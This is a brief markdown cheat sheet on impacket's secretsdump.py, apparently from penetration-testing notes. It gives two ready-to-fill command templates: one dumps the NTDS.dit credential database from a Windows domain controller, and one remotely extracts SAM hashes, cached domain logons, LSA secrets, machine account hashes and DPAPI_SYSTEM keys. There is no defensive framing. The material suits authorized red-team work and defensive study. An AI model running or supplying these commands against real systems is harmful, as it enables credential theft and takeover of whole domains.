 # impacket-secretsdump.py - *de facto tool for remotely dumping NTDS.dit from a Domain Controller*

## Dump NTDS.dit from domain controller with admin account and password

```bash
secretsdump.py $DNS_DOMAIN_NAME/$USERNAME:$PASSWORD@$DOMAIN_CONTROLLER_HOSTNAME_OR_IP
```

## Remotely dump local, SAM hashes, cached domain logon information, LSA secrets, local computer hashes ($MACHINE.ACC), and DPAPI_SYSTEM

```bash
secretsdump.py $DOMAIN/$USERNAME:$PASSWORD@$TARGET_IP
```
